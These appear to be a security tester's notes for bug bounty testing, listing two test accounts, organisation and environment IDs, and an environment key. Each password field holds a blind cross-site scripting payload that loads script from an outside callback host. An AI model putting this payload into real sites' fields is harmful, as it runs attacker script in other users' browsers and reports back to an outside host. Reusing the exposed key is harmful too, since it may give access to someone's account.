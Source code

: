 ## Domian 




## Creds 
------------------------------------------------------------

pwd = '"><script src=https://xss.report/c/mostafa></script>
user = admin
org = hackerone 
last = TestXSS
url_org = 

org_id = organizations/b219pi 
envir_id  = environments/uq7qqt

X-Mux-Organization-Id: b219pi
X-Mux-Environment-Id: uq7qqt
---------------------------------------------------------------
---------------------------------------------------------------


pwd = '"><script src=https://xss.report/c/mostafa></script>
user = Victim
org = hackerone 
last = new
url_org = 
email = f46ca0185c@emailcbox.pro

org_id = /organizations/m6bgha
envir_id  = environments/37iaoc


env_key = jpf9aspsgdk1pcjf2e58p3u8n



---------------------------------------------------------------

